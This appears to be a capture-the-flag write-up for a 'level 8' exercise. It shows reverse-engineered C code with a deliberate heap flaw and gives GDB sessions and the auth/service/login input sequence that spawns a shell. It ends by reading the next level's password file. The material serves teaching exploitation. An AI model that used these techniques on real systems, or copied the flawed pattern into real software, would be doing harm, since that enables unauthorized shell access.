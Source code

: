 ## LEVEL 8
---
### Starting from now, you will find explanations in the disassembled file for each line in few upcoming levels. This will provide a better understanding of the payload and the solution.
---

Exceptionally, I will show you the C version directly since the assembly code is too long and complex to explain. This C code is the source code I obtained by reverse engineering the assembly code myself.

```c
char	*auth = NULL;
char	*service = NULL;

int
main (void) {
	char	buffer[128];
	
	while (1) {
		printf("%p, %p\n", auth, service);
		if (fgets(buffer, 128, stdin) == 0)
			break;
		if (strncmp(buffer, "auth ", 5) == 0) {
			auth = malloc(4);
			auth[0] = 0;
			if (strlen(buffer + 5) <= 30)
				strcpy(auth, buffer + 5);
		}
		if (strncmp(buffer, "reset", 5) == 0)
			free(auth);
		if (strncmp(buffer, "service", 6) == 0)
			service = strdup(buffer + 7);
		if (strncmp(buffer, "login", 5) == 0) {
			if (auth[32] != 0)
				system("/bin/sh");
			else
				fwrite("Password:\n", 10, 1, stdout);
		}
	}
	return (0);
}
```

This program runs a prompts where you can enter commands. The commands are the following:

- `auth` allocates 4 bytes than copies the 25 characters that you enter after the command.
- `reset` frees the allocated memory by auth.
- `service` duplicates the text you enter after the command inside service without limitation.
- `login` checks if the 33rd character of auth is not null. If it is not null, it executes a shell. Else, it prints "Password:\n".

This level is relatively easy; you just need to bypass the `auth[32] != 0` condition. To achieve that, we need to find the right combination of commands that will result in `auth[32]` being not null.

Before proceeding, I recommend that you read the previous levels to quickly understand how malloc works. This will provide you with the necessary background knowledge to better comprehend the upcoming tasks.

I will description the solution in the following steps:

1. Allocate 4 bytes with `auth` this value will be checked by `login` later.

``` shell
(gdb) r
Starting program: /home/user/level8/level8

Breakpoint 1, 0x08048591 in main ()
(gdb) n
Single stepping until exit from function main,
which has no line number information.
(nil), (nil)
auth mamaurai

Breakpoint 1, 0x08048591 in main ()
(gdb) x/16a *0x8049aac
0x804a008:	0x616d616d	0x69617275	0xa	0x20ff1
0x804a018:	0x0	0x0	0x0	0x0
0x804a028:	0x0	0x0	0x0	0x0
0x804a038:	0x0	0x0	0x0	0x0
```

2. Allocate more than 32 bytes with `service`. The `strdup` function should allocate memory right after the `auth` variable.

``` shell
(gdb) n
Single stepping until exit from function main,
which has no line number information.
0x804a008, (nil)
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 1, 0x08048591 in main ()
(gdb) x/16a *0x8049aac
0x804a008:	0x616d616d	0x69617275	0xa	0x31
0x804a018:	0x41414120	0x41414141	0x41414141	0x41414141
0x804a028:	0x41414141	0x41414141	0x41414141	0x41414141
0x804a038:	0x41414141	0xa	0x0	0x20fc1
```

3. Check the value at auth[32].

```shell
(gdb) x *0x8049aac+32
0x804a028:	0x41414141
```

4. Login to get the shell.

```shell
(gdb) n
Single stepping until exit from function main,
which has no line number information.
0x804a008, 0x804a018
login
$ whoami
level8
```
Perfect, you just need to do the same thing outside of GDB because GDB runs the programs with your user as the owner.
```shell
$ ./level8
(nil), (nil)
auth mamaurai
0x804a008, (nil)
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
0x804a008, 0x804a018
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
```
